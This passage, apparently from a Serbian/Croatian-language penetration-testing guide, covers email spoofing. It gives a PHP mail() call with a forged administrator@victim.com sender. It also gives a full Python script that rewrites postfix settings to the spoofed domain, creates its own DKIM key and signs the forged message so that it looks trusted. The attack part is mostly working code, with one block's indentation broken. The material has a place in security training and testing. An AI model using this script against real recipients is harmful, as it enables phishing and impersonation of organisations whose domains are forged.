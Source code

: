 **Ili to možete uraditi ručno:**

<pre class="language-php"><code class="lang-php"><strong># Ovo će poslati nepotpisanu poruku
</strong><strong>mail("vas_email@gmail.com", "Test subjekat!", "hey! Ovo je test", "Od: administrator@victim.com");
</strong></code></pre>



```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
s = smtplib.SMTP(smtp)
s.sendmail(sender, [destination], msg_data)
```